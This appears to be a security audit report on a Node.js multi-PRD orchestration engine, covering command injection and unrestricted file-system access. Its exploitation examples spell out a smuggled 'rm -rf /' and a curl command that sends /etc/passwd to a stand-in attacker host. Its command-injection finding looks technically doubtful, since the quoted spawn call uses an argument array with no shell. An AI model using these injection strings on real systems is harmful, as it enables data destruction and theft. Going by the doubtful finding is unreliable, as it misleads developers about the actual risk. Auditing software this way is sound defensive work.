 # Multi-PRD Orchestration System Security Audit

**Audit Date:** August 14, 2025  
**Audited By:** Security Architect  
**System:** Multi-PRD Orchestration Engine (ORCH)  
**Scope:** Natural language parsing, process spawning, file system access, and agent orchestration  

## Executive Summary

The Multi-PRD Orchestration system presents **HIGH SECURITY RISKS** across multiple attack vectors. The system accepts natural language input, spawns child processes with elevated privileges, and performs extensive file system operations without adequate security controls. **Immediate remediation is required** before production deployment.

## Critical Findings

### 🚨 CRITICAL - Command Injection Vulnerabilities

**Risk Level:** Critical (CVSS 9.8)  
**Files Affected:** 
- `/orch/lib/orch/multi-prd-orchestrator.mjs` (lines 276-281)
- `/orch/lib/orch/workflow-runner.mjs` (line 45)

**Vulnerability Details:**
```javascript
// CRITICAL: Direct command execution without sanitization
const args = ['run', 'orch:start', '--', '--id', prdId];
const orchProcess = spawn('npm', args, {
  cwd: path.resolve(__dirname, '../../..'),
  env: { ...process.env, FORCE_COLOR: '1' }  // Environment injection
});
```

**Attack Vector:**
- Malicious PRD IDs like `1.1.1.1; rm -rf /` can execute arbitrary commands
- Natural language input parsed into shell commands without validation
- Environment variable injection through `process.env` spreading

**Exploitation Example:**
```
Input: "Execute PRD 1.1.1.1; curl http://attacker.com/steal?data=$(cat /etc/passwd)"
Result: Data exfiltration via command injection
```

### 🚨 CRITICAL - Unrestricted File System Access

**Risk Level:** Critical (CVSS 9.1)  
**Files Affected:**
- `/orch/lib/orch/orchestration-engine.mjs` (lines 42-82, 105-112)
- `/orch/lib/orch/prd-utils.mjs` (various write operations)

**Vulnerability Details:**
```javascript
// CRITICAL: No path validation or sandboxing
const agentPath = path.join(agentsDir, file);
const agentModule = await import(`file://${agentPath}`);
```
